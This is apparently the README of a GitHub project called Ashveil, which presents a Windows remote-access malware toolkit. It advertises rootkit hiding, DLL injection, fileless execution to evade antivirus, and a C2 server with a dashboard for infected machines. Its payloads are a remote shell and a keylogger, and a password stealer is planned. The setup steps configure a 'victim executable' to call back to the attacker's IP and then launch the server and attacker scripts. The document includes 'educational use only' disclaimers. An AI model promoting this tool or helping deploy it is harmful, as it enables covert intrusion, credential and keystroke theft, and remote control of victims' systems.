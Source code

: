 # **Ashveil - README**

## Overview

**Ashveil** is a powerful Windows-based tool designed to demonstrate advanced cybersecurity techniques, including **DLL injection**, **memory-based code execution**, and **C2 (Command and Control) server communication**. This tool provides a deep dive into **rootkit installation** and **stealth operations**, showcasing how attackers can gain remote control over compromised machines while evading common detection methods.

**Important Warning**: Ashveil is a highly dangerous tool that can be used to compromise and control systems. It is strictly intended for **educational purposes** within controlled environments, such as penetration testing, ethical hacking, or malware research. **Unauthorized use is illegal** and carries significant legal risks.

> **Disclaimer**: The creator is not responsible for any damage, harm, or illegal activity caused by the use or misuse of this tool. The tool should only be used in environments where the user has **explicit permission**.

## Features

- **Rootkit Installation**: Conceals malicious processes and files to evade detection from system monitoring tools (e.g., Task Manager and Windows Explorer).
- **DLL Injection**: Injects code into a target process to install a backdoor, bypassing traditional antivirus defenses.
- **Memory-based Execution**: Executes code directly in system memory, leaving no trace on disk and avoiding signature-based detection.
- **C2 Communication**: Allows the attacker to remotely control the compromised system via a C2 server. Payloads and actions can be modified in real-time.
- **Web Dashboard**: A user-friendly web interface to manage and monitor all connected clients, facilitating payload control and monitoring of infected systems.

## Upcoming Features

- **AES Encryption**: Payloads will be encrypted for secure communication over the network.
- **New Payloads**: Additional payloads will be developed, including a password stealer and a live viewer (real-time screen capture).
- **More Payload Options**: Future updates will include the ability to create custom payloads in shellcode.
- **Obfuscation Techniques**: Enhanced methods to avoid detection by antivirus software and other security tools.
- **Self-Maintenance**: Adding watchdogs and automatic updates for better tool functionality and longevity.

## Current Payloads

- **SHELL**: A remote shell that allows the attacker to execute commands on the victim machine. If the victim is running the rootkit, elevated permissions can be granted.
- **Keylogger**: Captures and logs all keystrokes typed by the user, sending the log back to the C2 server.

## Installation

### Prerequisites

- **Operating System**: Windows (tested on Windows 10)
- **Dependencies**: Install required Python libraries by running:
    ```bash
    pip install -r requirements.txt
    ```

### Setup

1. **Clone the Repository**:
    ```bash
    git clone https://github.com/madmaxvoltro/Ashveil.git
    cd Ashveil
    ```

2. **Install Dependencies**:
    ```bash
    pip install -r requirements.txt
    ```

3. **Configure the Victim Executable**:
   Set the victim executable to connect back to your server’s IP address.
   ```bash
   loader/InMemLoader.exe -SetIp <your ip>

4. **Running the Tool:**
   **Start the Server:** The server controls the attacker's environment and client connections.
   ```bash
   python server/server.py
   ```

5. **start the Attacker:** This will execute the payload on the victim machine.
   ```bash
   python attacker/attacker.py
   ```
## Configuration
### Modifying the Payload 
The payload and its behavior can be easily modified in the ``server/payloads/`` directory. You can create new payloads or modify existing ones by following these steps:
1. Open the ``server/payloads/`` directory.
2. Create a new C# file with your payload code or edit an existing one.
3. Restart the server to load the new or modified payload.
> **Note:** Payloads must be written in C# for compatibility with the tool.

### Customizing the C2 Server
You can adjust the behavior of the C2 server, including changing the communication port. For example, to change the server's port:
```python
# Example: Set custom port for the C2 server
port = 7777  # Change this to your desired port
```     
### important Safety & Legal Warnings
**Ashveil** is a **highly dangerous tool** capable of causing significant damage if used irresponsibly. It is classified as a **cyber weapon** due to its potential for malicious misuse.**

### Use Only in Ethical and Legal Environments
- **Ethical Use: Ashveil** should be used only in controlled environments, such as penetration testing labs, where you have **explicit consent** from the system owner.
- **Unauthorized Use:** Using this tool on systems without permission is **illegal** and punishable by law. The creator will not be held liable for any illegal actions or damage caused by this tool.

### License
This project is licensed under the MIT License – see the (LICENSE)[https://github.com/madmaxvoltro/Ashveil/blob/main/LICENSE] file for details.

However, please note that this tool is only intended for educational and ethical research purposes. It should not be used for illegal activities. Misuse could result in legal consequences.

### Ethics & Responsible Use
**Ashveil** was created to provide educational insights into malware techniques and cybersecurity research. It is meant for **ethical hacking**, **red teaming**, and **penetration testing**    only. Use this tool exclusively in environments where you have explicit permission and legal authorization.

Never use this tool on systems you do not own or have express permission to test. Always adhere to best practices for responsible disclosure and cybersecurity.

### Acknowledgments
- **Rootkit Code:** The rootkit used in this project is based on code from another open-source project. Credits go to the original author, byte77.

### Contact 
If you have any questions, feedback, or need assistance, feel free to contact me via issues